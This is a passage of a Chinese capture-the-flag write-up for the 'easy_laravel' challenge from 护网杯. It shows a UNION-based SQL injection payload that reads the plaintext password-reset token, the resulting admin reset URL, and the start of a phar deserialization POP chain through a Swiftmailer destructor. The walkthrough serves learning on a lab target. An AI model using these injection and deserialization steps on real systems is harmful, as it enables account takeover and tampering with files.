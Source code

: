 然后就是一个找回密码的功能，找回密码的时候会设置一个token值，只有当token值和发往用户邮箱的token值一致才能重置密码，这个token值是被存放在数据库中的，但是按出题人的说法，也只有在`5.4`版本以明文的形式存储

> 这也是使用 Laravel 5.4的原因，在高于5.4的版本中，重置密码这个 token 会被 bcrypt 再存入，就和用户密码一样

然后就可以申请重置管理密码，然后得到token，（字段名和表名在`migrations`的记录里可以看到的

```
asdf' union select 1,(select token from password_resets),3,4,5#
```

![](护网杯-web\3.png)

然后去访问

```
http://192.168.85.144/password/reset/85a8a09e22819c0298ce4334b6dd357a1ec51ac10335575718f218ff93faddf5
```

就可以修改管理员的密码

然后访问`/flag`页面的时候显示的是没有`no flag`，这是由于`laravel`的页面模板缓存机制导致的

提示给了`pop chain`就说明需要反序列化，可以看到

```php
public function check(Request $request)
{
    $path = $request->input('path', $this->path);
    $filename = $request->input('filename', null);
    if($filename){
        if(!file_exists($path . $filename)){
            Flash::error('磁盘文件已删除，刷新文件列表');
        }else{
            Flash::success('文件有效');
        }
    }
    return redirect(route('files'));
}
```

可以看到`file_exists($path . $filename)`中文件名是全部可控的，这样，就i可以利用`phar`进行反序列化，删掉模板文件，更新缓存。恰巧还有个文件上传的点

然后就是寻找pop 链，自己写的代码逻辑部分不是很多，但是可以利用`larvael`中的各种类

`easy_laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift/ByteStream/TemporaryFileByteStream.php:36`

```php
public function __destruct()
{
    if (file_exists($this->getPath())) {
        @unlink($this->getPath());
    }
}
```
